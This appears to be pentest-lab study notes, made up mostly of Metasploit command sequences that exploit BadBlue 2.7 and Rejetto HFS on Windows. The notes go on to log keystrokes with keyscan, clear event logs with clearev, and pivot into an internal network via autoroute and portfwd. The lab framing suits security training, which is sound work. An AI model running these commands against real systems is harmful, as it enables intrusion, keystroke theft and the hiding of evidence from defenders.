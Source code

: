 
#### Windows: File and Keylogging

	nmap ip
	nmap -sV -p 80 ip
	searchsploit badblue 2.7
	msfconsole
	use exploit/windows/http/badblue_passthru
	set RHOSTS ip
	exploit
	shell
	cd /
	dir
	type flag.txt
	cd Users\\Administrators\\Desktop
	dir
	ECHO "You have been hacked " > hacked.txt
	ps
	migrate explorer.exe PID number
	keyscan_start
	keyscan_dump
	type random texts in the notepad
	keyscan_dump
	


## Clearing Windows Event Logs

	msfconsole
	use exploit/windows/http/badblue_passthru
	set RHOSTS ip
	exploit
	clearev


## Pivoting
is a post exploitation techniques that involves utilizing a compromised host to attack other systems on the compromised host's private internal network

- after gaining access to one host we can use the compromised host to exploit other hosts on the same internal network to which we could not access previously

## Pivoting lab

	nmap ip
	nmap -sV -p80 ip
	searchsploit hfs
	msfconsole
	use exploit/windows/http/rejetto_hfs_exec
	set RHOSTS ip
	exploit
	ipconfig
	run autoroute -s ip
	background
	use auxiliary/scanner/portscan/tcp
	set RHOSTS ip
	set PORTS 1-100
	exploit
	sessions -i 1
	portfwd add -l 1234 -p 80 -r ip
	portfwd list
	nmap -sV -sS -p 1234 localhost
	searchsploit badblue 2.7
	use exploit/windows/http/badblue_passthru
	set PAYLOAD windows/meterpreter/bind_tcp